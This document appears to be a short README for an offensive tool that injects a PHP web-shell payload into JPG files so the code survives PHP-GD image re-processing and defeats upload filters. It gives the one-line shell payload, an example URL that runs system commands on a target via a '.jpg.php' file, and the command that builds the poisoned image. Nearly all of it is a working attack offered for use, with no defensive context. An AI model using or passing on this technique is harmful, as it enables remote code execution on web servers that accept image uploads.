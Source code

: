 # Bypass PHP-GD RCE
#### Bypassing image uploader use PHP-GD
#### Bypassing Via Injecting RCE Code In Image 
##### Perbedaan injeksi PHP GD dengan injeksi seperti exiftool, dan jhead adalah tidak merusak pixel/merubah pixel gambar, gambar yang di injeksi akan tetap menampilkan gambar, terdeteksi, dan terlihat seperti gambar asli
## Ubah gd.php dan ganti Payload/Kode yang ingin di inject ke gambar di __LINE 8__

```
$miniPayload = 'taruh payloadmu disini';
```
#### contoh payload yang dipake :

```
$miniPayload = '<?=`$_GET[0]`?>';
as
vuln.com/rce.jpg.php?0=id;uname -a
```
## How ?
```
php gd.php sample.jpg
```
#### jika sukses, maka ada file baru bernama payload_sample.jpg

# JPG ONLY !!!
